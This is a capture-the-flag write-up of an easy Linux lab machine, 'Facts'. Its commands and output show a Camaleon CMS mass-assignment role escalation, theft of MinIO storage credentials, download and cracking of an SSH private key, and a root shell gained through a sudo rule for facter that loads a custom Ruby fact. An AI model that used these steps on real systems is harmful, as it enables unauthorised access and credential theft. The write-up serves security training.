








# Facts

Difficulty: Easy
OS: Linux
Category: Offensive
Date: 2026-02-05
Added: 2026-10-01


I used a Camaleon CMS role-update flaw to access storage credentials, recovered an SSH key, and followed a sudo rule for Facter to root.

## Scanning
I started with `nmap -sCV <IP address> -oN scans-facts` to identify services on the target.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp open  http    nginx 1.26.3 (Ubuntu)
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 was open, and the HTTP response redirected to `facts.htb`. I added the target IP and hostname to `/etc/hosts` so my machine could resolve it:
```
<IP address>      facts.htb
```

## Enumeration
The landing page gave me little to investigate directly.

I enumerated directories and found an administration endpoint.

At `/admin/login`, I found an option to register. I created an account and signed in as a regular user.

Although the interface resembled an admin dashboard, my account did not yet have administrative privileges.


## Foothold
The footer identified Camaleon CMS. I investigated its password-update handling and found a mass-assignment issue: an extra role parameter could be accepted alongside the password fields. The [upstream fix](https://github.com/owen2345/camaleon-cms/commit/97f00aedbbb90d7e762b60b2b140e22021014bf2) replaces unrestricted parameters with an explicit allowlist.

The vulnerable line passed every submitted attribute under `password` to the user update:
```rb
 @user.update(params.require(:password).permit!)
```
A normal password update would contain only the new password and its confirmation:
```json
{
  "password": {
    "password": "newpass123",
    "password_confirmation": "newpass123"
  }
}
```
I could also supply a `role` attribute in that same object:
```json
{
  "password": {
    "password": "newpass123",
    "password_confirmation": "newpass123",
    "role": "admin"
  }
}
```
I intercepted my password-update request and appended `&password%5Brole%5D=admin`.


Rails parses that bracket notation as a nested parameter, equivalent to this Ruby hash:
```ruby
params = {
  password: {
    role: "admin"
  }
}
```
After the update, my account had the **admin** role and additional settings became accessible.


I opened **Settings → General sites → Filesystem Settings** and found an access key and secret key for S3-compatible storage.

The configuration referenced `localhost:54321`. In this lab, I could also reach the storage service through `facts.htb:54321`. This port was outside the small set shown in my initial scan.

## MinIO Client
I used the MinIO Client (`mc`) to interact with the S3-compatible storage.
I configured an alias using the exposed endpoint and credentials:
```
mc alias set facts http://facts.htb:54321 <ACCESS KEY> <SECRET KEY>
```
I listed the available buckets:
```bash
 mc ls facts                                                                                            
[2025-09-11 08:06:52 EDT]     0B internal/
[2025-09-11 08:06:52 EDT]     0B randomfacts/
```
The `internal` bucket contained an `.ssh` directory and an encrypted `id_ed25519` private key. I downloaded the key for offline analysis.
```bash
mc ls facts/internal/.ssh
[2026-02-05 02:19:06 EST]    82B STANDARD authorized_keys
[2026-02-05 02:19:06 EST]   464B STANDARD id_ed25519
```
```bash
mc get facts/internal/.ssh/id_ed25519 .
```
I converted the key into a format John the Ripper could process with `ssh2john`, then tested the `rockyou.txt` wordlist against its passphrase:
```bash
ssh2john id_ed25519 > id.hash
john --wordlist=~/Tools/wordlists/rockyou.txt id.hash
<redacted_password>      (id_ed25519) 
```
After recovering the passphrase, I inspected the key with `ssh-keygen -p`. Its comment identified `trivia@facts.htb`, giving me a candidate SSH username. This command also prompts to change the key's passphrase; it is not an authentication attempt.
```
ssh-keygen -p -f id_ed25519
```

I restricted the private key's permissions, then used it to connect as `trivia`:
```
chmod 600 id_ed25519
ssh trivia@facts.htb -i id_ed25519
```
SSH accepted the key and gave me a shell as **trivia**.
## User & Root Flag
I didn't find the user flag in trivia's home directory. Before exploring the other home directories further, I checked my permitted sudo commands with `sudo -l`:
```
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```
The sudo rule allowed me to run `/usr/bin/facter` as root without a password. Facter can load custom Ruby facts from a chosen directory, so code in that directory runs with the privileges of the Facter process. The [GTFOBins Facter entry](https://gtfobins.org/gtfobins/facter/) documents this behavior.

I created a directory under `/tmp` containing a Ruby file that starts `/bin/sh`, then pointed the permitted sudo command at it:
```
cd /tmp
mkdir /tmp/elevate
cd elevate
echo 'exec "/bin/sh"' > priv.rb
sudo /usr/bin/facter --custom-dir=/tmp/elevate/
```

The resulting root shell let me retrieve `/home/william/user.txt` and `/root/root.txt`.
